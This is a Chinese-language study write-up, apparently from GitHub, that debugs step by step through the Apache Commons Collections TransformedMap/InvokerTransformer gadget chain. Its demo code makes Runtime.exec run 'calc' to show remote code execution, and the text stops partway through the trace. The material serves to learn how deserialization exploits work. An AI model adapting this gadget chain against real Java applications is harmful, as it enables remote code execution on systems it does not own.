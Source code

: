 ```java
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class Demo2 { public static void main(String[] args) throws Exception {

    Runtime runtime = Runtime.getRuntime();
    InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});

    // 以下步骤就相当于 invokerTransformer.transform(runtime);
    HashMap<Object, Object> map = new HashMap<>();
    map.put("key","value");

    Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, invokerTransformer);

    // 遍历Map——checkSetValue(Object value)只处理了value,所以我们只需要将runtime传入value即可
    for (Map.Entry entry:transformedMap.entrySet()){
        entry.setValue(runtime);
    }

}
}
```
跟着调试。目的：通过InvokerTransformer的transform方法调用我们创造InvokerTransformer，实现rce。
跟进transformedMap的创建过程。
```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```
这里map是我们建的空map，valuetransformer是我们传入的恶意invokeTransformer对象。
然后调用transformedMap的构造方法。
```java
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```
valueTransformer成功赋上恶意对象。
父类构造方法
```java
public AbstractMapDecorator(Map map) {
        if (map == null) {
            throw new IllegalArgumentException("Map must not be null");
        } else {
            this.map = map;
        }
    }
```
这步走完。
跟进entry.set():
```java
public Set entrySet() {
        return (Set)(this.isSetValueChecking() ? new EntrySet(this.map.entrySet(), this) : this.map.entrySet());
    }

```
这里执行true的操作。
```java
protected EntrySet(Set set, AbstractInputCheckedMapDecorator parent) {
            super(set);
            this.parent = parent;
        }
```